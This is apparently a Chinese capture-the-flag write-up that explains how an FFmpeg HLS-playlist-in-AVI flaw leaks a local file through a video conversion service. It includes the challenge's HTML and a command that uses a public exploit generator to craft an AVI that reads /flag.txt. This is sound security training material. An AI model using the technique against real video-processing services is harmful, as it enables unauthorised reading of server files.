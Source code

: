 # 小电影
本题利用了FFmpeg可以处理HLS播放列表的特性，而播放列表可以引用外部文件。通过在AVI文件中添加自定义的包含本地文件引用的HLS播放列表，可以触发该漏洞并在该文件播放过程中显示本地文件的内容。
[详细漏洞介绍](http://blog.cyberpeace.cn/FFmpeg/)
1、主页右键查看源码可得知flag位置。
```html
<html><h3>/upload , /download?name=xxx.avi .We will help you convert video with ffmpeg. Maybe you will find something different </h3>
<h3>Don't attack the platform ,it's simple .</h3>
<h3>Pay more attention to the video file and you will see what you want .</h3> 
<!-- flag is in /flag.txt -->
</html>

```
2、利用exp构造avi文件。
<https://github.com/neex/ffmpeg-avi-m3u-xbin>
限制上传文件名只能为123.avi`python3 gen_xbin_avi.py file:///flag.txt 123.avi`

3、上传结束之后即可通过`download?name=xxx.avi`下载文件，从视频文件中即可获取flag。
